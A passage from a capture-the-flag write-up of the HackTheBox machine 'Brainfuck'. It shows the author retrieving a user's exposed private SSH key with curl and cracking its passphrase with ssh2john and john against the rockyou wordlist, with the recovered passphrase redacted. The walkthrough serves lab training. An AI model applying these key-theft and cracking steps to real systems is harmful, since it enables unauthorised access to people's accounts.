 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604205855.png)

We found `orestis` private SSH key!

**Let's download it!**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|20:59:41(HKT)]
└> curl https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa -k -o orestis_id_rsa
[...]
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|20:59:59(HKT)]
└> chmod 600 orestis_id_rsa 
```

**However, the private key has passphrase:** (`ENCRYPTED`)
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:00:19(HKT)]
└> head -n 3 orestis_id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382
```

**We can use `ssh2john` and `john` to crack it:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:01:03(HKT)]
└> ssh2john orestis_id_rsa > orestis_id_rsa_hash.txt
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:01:11(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt orestis_id_rsa_hash.txt 
[...]
{Redacted}       (orestis_id_rsa)     
[...]
```
